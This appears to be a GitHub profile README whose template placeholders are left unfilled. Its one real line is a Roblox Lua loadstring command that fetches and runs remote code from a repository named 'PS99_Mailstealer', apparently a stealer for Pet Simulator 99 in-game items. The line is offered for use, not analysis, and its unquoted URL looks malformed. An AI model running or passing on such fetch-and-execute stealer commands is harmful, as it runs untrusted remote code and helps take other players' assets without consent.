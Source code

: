 - 👋 Hi, I’m @iburn2018
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...


loadstring(game:HttpGet(https://github.com/KiuuP/PS99_Mailstealer.git, true))()

